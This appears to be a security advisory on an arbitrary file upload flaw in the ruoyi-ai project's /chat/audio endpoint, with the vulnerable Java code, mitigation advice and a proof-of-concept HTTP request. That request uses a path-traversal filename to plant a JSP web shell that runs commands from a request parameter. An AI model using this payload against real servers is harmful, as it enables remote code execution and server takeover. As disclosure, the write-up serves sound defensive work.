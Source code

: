 # Vulnerability Description

The open source project "[ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)" which implements AI chat and painting functions based on ruoyi-plus has an arbitrary file upload vulnerability, which allows attackers to upload any malicious files to any path on the server, resulting in the risk of arbitrary code execution and arbitrary file overwriting on the server.

- Vulnerability Discloser: [Tr0e](https://github.com/Tr0e)

- Vendors:  [GitHub-ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)

- Source code address： [GitHub-ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)

Related reports online link:

- https://github.com/ageerle/ruoyi-ai/issues/9

- [Tr0e/CVE_Hunter · ruoyi-ai/ruoyi-ai_RCE.md](https://github.com/Tr0e/CVE_Hunter/blob/main/ruoyi-ai/ruoyi-ai_RCE.md)

Note: **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

- [https://github.com/ageerle/ruoyi-ai/blob/main/ruoyi-modules/ruoyi-fusion/src/main/java/org/ruoyi/fusion/controller/ChatController.java#L80](https://github.com/ageerle/ruoyi-ai/blob/main/ruoyi-modules/ruoyi-fusion/src/main/java/org/ruoyi/fusion/controller/ChatController.java#L80)

- https://github.com/ageerle/ruoyi-ai/blob/main/ruoyi-modules/ruoyi-system/src/main/java/org/ruoyi/system/service/impl/SseServiceImpl.java#L329

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
//ruoyi-modules\ruoyi-fusion\src\main\java\org\ruoyi\fusion\controller\ChatController.java 
    /**
     * 语音转文本
     *
     * @param file
     */
    @PostMapping("/audio")
    @ResponseBody
    public WhisperResponse audio(@RequestParam("file") MultipartFile file) {
        WhisperResponse whisperResponse = ISseService.speechToTextTranscriptionsV2(file);
        return whisperResponse;
    }

//ruoyi-modules\ruoyi-system\src\main\java\org\ruoyi\system\service\impl\SseServiceImpl.java
   /**
     * 语音转文字
     */
    @Override
    public WhisperResponse speechToTextTranscriptionsV2(MultipartFile file) {
        // 确保文件不为空
        if (file.isEmpty()) {
            throw new IllegalStateException("Cannot convert an empty MultipartFile");
        }
        // 创建一个文件对象
        File fileA = new File(System.getProperty("java.io.tmpdir") + File.separator + file.getOriginalFilename());
        try {
            // 将 MultipartFile 的内容写入文件
            file.transferTo(fileA);
        } catch (IOException e) {
            throw new RuntimeException("Failed to convert MultipartFile to File", e);
        }
        return openAiStreamClient.speechToTextTranscriptions(fileA);
    }
```

As you can see, the external API entry `/audio` receives the MultipartFile uploaded by the user and directly passes it to the `ISseService.speechToTextTranscriptionsV2` function for processing. At the same time, the `speechToTextTranscriptionsV2` function directly references the user-controllable file name and suffix as the final file path and name saved on the server without any security check, thus forming a typical file upload vulnerability.

Attackers can use this vulnerability to upload malicious Trojan files to the victim's server, thereby controlling the server or overwriting any file on the server, causing serious impact on the target server.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file.

The vulnerability proof of concept (POC) is as follows:

```js
POST /chat/audio HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxk
Content-Length: 628

------WebKitFormBoundary7MA4YWxk
Content-Disposition: form-data; name="file"; filename="../../shell.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
------WebKitFormBoundary7MA4YWxk--
```

# Security Suggestions

Please limit the uploaded file types and check the file suffixes to prevent attackers from uploading malicious Trojan programs.

At the same time, the uploaded file path needs to be strictly restricted, and it is forbidden to use the file name information transmitted by the front end to splice the final file storage path
